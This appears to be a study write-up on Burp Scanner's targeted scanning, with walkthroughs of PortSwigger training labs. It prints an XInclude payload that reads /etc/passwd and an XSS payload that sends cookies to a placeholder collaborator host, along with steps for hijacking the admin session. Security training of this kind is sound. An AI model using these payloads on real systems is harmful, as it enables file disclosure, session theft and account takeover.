


# Using Burp Scanner during manual testing
## Scanning a specific request
When you come across an interesting function or behavior, your first instinct may be to send the relevant requests to Repeater or Intruder and investigate further. But it's often beneficial to hand the request to Burp Scanner as well. It can get to work on the more repetitive aspects of testing while you put your skills to better use elsewhere.

If you right-click on a request and select "Active scan selected message", Burp Scanner will use its default configuration to audit only this request. 

This may not catch every last vulnerability, but it could potentially flag things up in seconds that could otherwise have taken hours to find. It may also help you to rule out certain attacks almost immediately. You can still perform more targeted testing using Burp's manual tools, but you'll be able to focus your efforts on specific inputs and a narrower range of potential vulnerabilities.

Even if you already use Burp Scanner to run a general crawl and audit of new targets, switching to this more targeted approach to auditing can massively reduce your overall scan time. 

### Lab: Discovering vulnerabilities quickly with targeted scanning
1. Intercept the check-stock request `GET /product/stock?productId=1&storeId=1` and send it to Burp Scanner.



2. Scanner reports a critical out-of-band resource load via XML XInclude injection in productId, confirming the parameter is parsed as XML server-side.
```
productId=%3cfvh%20xmlns%3axi%3d%22http%3a%2f%2fwww.w3.org%2f2001%2fXInclude%22%3e%3cxi%3ainclude%20href%3d%22http%3a%2f%2f3x1ls7sssdc521ddouun6qdhw821qset2lpbd0.oastify.com%2ffoo%22%2f%3e%3c%2ffvh%3e&storeId=1
```

3. Since XInclude can also read local files, replace the OAST payload with a file-read payload using parse="text" (required for non-XML content):

(if you want to know more/recall, go see Lab: Exploiting XInclude to retrieve files)
```
productId=<fvh xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="/etc/passwd"/></fvh>&storeId=1
```

4. The response returns the contents of `/etc/passwd` → lab solved.

## Scanning custom insertion points
 It's easy to see the benefits of limiting your scans to a single request, but you can take this a step further by only testing specific inputs within that request. You can do this from the message editor.

Highlight the insertion point you're interested in, then right-click and select Scan selected insertion point. 

## Scanning non-standard data structures


A. Identify the vulnerability

1. Log in to your account with the provided credentials.
2. In Burp, go to the Proxy > HTTP history tab.
3. Find the `GET /my-account?id=wiener` request, which contains your new authenticated session cookie.
4. Study the session cookie and notice that it contains your username in cleartext, followed by a token of some kind. These are separated by a colon, which suggests that the application may treat the cookie value as two distinct inputs.
5. Select the first part of the session cookie, the cleartext wiener.
6. Right-click and select Scan selected insertion point, then click OK.
7. Go to the Dashboard and wait for the scan to complete.

Approximately one minute after the scan starts, notice that Burp Scanner reports a __Cross-site scripting (stored)__ issue. It has detected this by triggering an interaction with the Burp Collaborator server.
Note

The delay in reporting the issue is due to the polling interval. By default, Burp polls the Burp Collaborator server for new interactions every minute.

B. Steal the admin user's cookies

1. In the Dashboard, select the identified issue.
2. In the lower panel, open the Request tab. This contains the request that Burp Scanner used to identify the issue.
3. Send the request to Burp Repeater.
4. Go to the Collaborator tab and click Copy to clipboard. A new Burp Collaborator payload is saved to your clipboard.
5. Go to the Repeater tab and use the Inspector to view the cookie in its decoded form.

6. Using the Collaborator payload you just copied, replace the proof-of-concept that Burp Scanner used with an exploit that exfiltrates the victim's cookies. For example:
```
'"><svg/onload=fetch(`//YOUR-COLLABORATOR-PAYLOAD/${encodeURIComponent(document.cookie)}`)>:YOUR-SESSION-ID
```
Note that you need to preserve the second part of the cookie containing your session ID.

7. Click Apply changes, and then click Send.
8. Go back to the Collaborator tab. After approximately one minute, click Poll now. Notice that the Collaborator server has received new DNS and HTTP interactions.
9. Select one of the HTTP interactions.
10. On the Request to Collaborator tab, notice that the path of the request contains the admin user's cookies.

C. Use the admin user's cookie to access the admin panel

1. Copy the admin user's session cookie.
2. Go to Burp's browser and open the DevTools menu.
3. Go to the Application tab and select Cookies.
4. Replace your session cookie with the admin user's session cookie, and refresh the page.
5. Access the admin panel and delete carlos to solve the lab.

